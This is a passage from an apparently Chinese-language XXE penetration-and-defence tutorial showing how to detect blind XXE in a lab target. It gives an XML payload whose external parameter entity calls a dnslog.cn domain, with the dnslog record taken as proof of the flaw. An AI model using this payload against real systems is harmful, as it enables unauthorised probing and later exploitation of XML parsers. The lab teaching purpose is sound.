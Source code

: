比如假设第一个靶场没有回显，我们可以测试这个xml代码是否运行，来加载dnslog所给的域名。

```xml
这段代码是通过%来定义实体，所以最后使用%实体名;来运行。

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
    <!ENTITY % remote SYSTEM "http://2y0178.dnslog.cn">%remote;
]>
```

![image-20240803201019188](XXE渗透与防御/image-20240803201019188.png)	

通过刷新得到一条记录，即可说明有xxe注入漏洞。

![image-20240803201102373](XXE渗透与防御/image-20240803201102373.png)	
